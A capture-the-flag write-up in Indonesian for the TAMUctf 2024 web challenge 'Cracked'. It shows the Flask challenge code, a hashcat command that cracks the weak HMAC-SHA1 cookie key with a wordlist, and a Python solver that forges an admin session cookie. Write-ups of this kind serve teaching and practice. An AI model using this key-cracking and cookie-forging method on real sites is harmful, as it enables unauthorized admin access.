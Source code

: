 # Cracked Writeup - Web - tamuctf-2024

Pada challenge kali ini ditemukan vulnerability terhadap KEY, yang mana key dapat dengan mudah di crack dan bisa kita gunakan untuk membuat cookie yang baru sebagai akun admin.

## Source Code
```python
from os import environ
from hashlib import sha1
from flask import Flask, request, make_response, Response
from base64 import b64encode, b64decode

import hmac
import json


KEY = environ['KEY']
FLAG = environ['FLAG']
PORT = int(environ['PORT'])

default_session = '{"admin": 0, "username": "guest"}'
app = Flask(__name__)


def sign(m):
    return b64encode(hmac.new(KEY.encode(), m.encode(), sha1).digest()).decode()


def verify(m, s):
    return hmac.compare_digest(b64decode(sign(m)), b64decode(s))


@app.route('/')
def index():
    session = request.cookies.get('session')
    sig = request.cookies.get('sig')
    if session == None or sig == None:
        res = Response(open(__file__).read(), mimetype='text/plain')
        res.set_cookie('session', b64encode(default_session.encode()).decode())
        res.set_cookie('sig', sign(default_session))
        return res
    elif (plain_session := b64decode(session).decode()) == default_session:
        return Response(open(__file__).read(), mimetype='text/plain')
    else:
        if plain_session != None and verify(plain_session, sig) == True:
            try:
                if json.loads(plain_session)['admin'] == True:
                    return FLAG
                else:
                    return 'You are not an administrator'
            except Exception:
                return 'You are not an administrator'
        else:
            return 'You are not an administrator'

if __name__ == '__main__':
    app.run('0.0.0.0', PORT)
```

Terlihat dari kode diatas, cookie akan di set dengan default session dengan nilai `{"admin": 0, "username": "guest"}`, jika kita berhasil mengubah `{"admin":1}`, maka browser akan menampilkan flag untuk kita.

cookie di sign menggunakan `hmac` dan `sha1`, dengan nilai `KEY` yang disimpan di environtment, kita bisa mencoba melakukan bruteforce hash ini untuk mendpatkan key yang sesuai.

```bash
cat hash     
beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}

hashcat -m 150 -a 0 hash ~/Documents/Wordlist/rockyou.txt --show
beefda82f9ed4590ea38e9c5a4616397e19f9c74:{"admin": 0, "username": "guest"}:6lmao9
```

pada kode diatas, kita berhasil mendapatkan `KEY` dengan cara melakukan bruteforce, sekarang kita tinggal membuat cookie baru dengan `KEY` yang sudah kita dapatkan, berikut merupakan solvernya.

```python
import requests
import hmac
from base64 import b64encode
from hashlib import sha1

KEY = "6lmao9"
session = '{"admin": 1, "username": "guest"}'
cookies = {
    "sig": b64encode(hmac.new(KEY.encode(), session.encode(), sha1).digest()).decode(),
    "session": b64encode(session.encode()).decode()
}
print(cookies)
print(requests.get("http://localhost:8000", cookies=cookies).text)
```

thankyou :))